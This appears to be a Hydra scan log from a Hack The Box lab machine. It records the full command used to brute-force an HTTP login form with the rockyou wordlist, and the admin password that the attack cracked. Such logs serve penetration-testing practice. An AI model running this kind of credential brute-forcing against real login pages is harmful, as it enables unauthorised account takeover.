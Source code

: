 # Hydra v9.3 run at 2022-05-06 17:10:48 on 10.10.10.43 http-post-form (hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -o /HTB-boxes/Ninevah/2-enum/http/hydra_http_host.md -t 10 10.10.10.43 http-post-form /department/login.php:username=^USER^&password=^PASS^:Invalid Password)
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
